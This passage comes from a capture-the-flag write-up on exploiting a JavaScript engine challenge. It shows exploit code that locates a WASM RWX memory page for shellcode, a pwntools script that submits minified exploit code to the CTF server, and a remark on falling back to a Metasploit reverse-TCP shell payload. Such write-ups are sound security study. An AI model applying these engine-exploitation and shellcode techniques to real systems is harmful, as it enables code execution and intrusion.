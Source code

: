```javascript
var rwxloc = addrof(m) + 0x68; // Memory location where pointer  to RWX page is stored
sub = 0;
if ((rwxloc - loc) % 8 != 0) {sub = 4;}
var rwxidx = (rwxloc - loc - sub) / 8; // <-- possibly negative index, which meant failure
```

Well, in practice, problems do arise. For some reason, the WASM instance sometimes landed before our fake array, so we cannot read its contents. Printing it out with console.log seems to improve our chances. _(My apologies to the more knowledgable crowd if I start sounding superstitious)_ As we are reading 64-bit floats with our fake array, we read in 8 byte multiples and sometimes the fake array and WASM instance were _8n + 4_ bytes apart. This was easy to fix as we just have to read half of two positions and recombine them.


```python
from pwn import *
from jsmin import jsmin
win = False
while not win:
	proc = remote('omnitmizer.pwn2.win', 1337)
	d = jsmin(open('trythis4.js').read())
	# print d
	proc.sendlineafter('code:', str(len(d)))
	proc.sendlineafter('d:', d)
	proc.recvuntil('You have been OmniTmized!')
	data = proc.recvall()
	print data
	if 'CTF-BR' in data:
		win = True
	proc.close()
```

After copying in our shellcode, we can just run wasmInstance.exports.main function to run our shellcode. Shellcodes tend to be big when written as byte arrays and the remote server seemed to have a byte limit on code of 4096 bytes (otherwise you just get a =D). So, for the challenge I used a minifier _jsmin_ in my code submission python script seen above.

![](/images/4/weird.png)
*Strange behaviour*

My initial shellcode ran flag.exe to get the flag but strangely, the flag never came. In some cases, the console was just showing the command prompt running d8.exe, and had absolutely no other output of console.log, which was strange. Left without a choice, I copied a Metasploit (never thought I would use it again) _windows/x64/shell/reverse_tcp_ shellcode into my code and fired off.
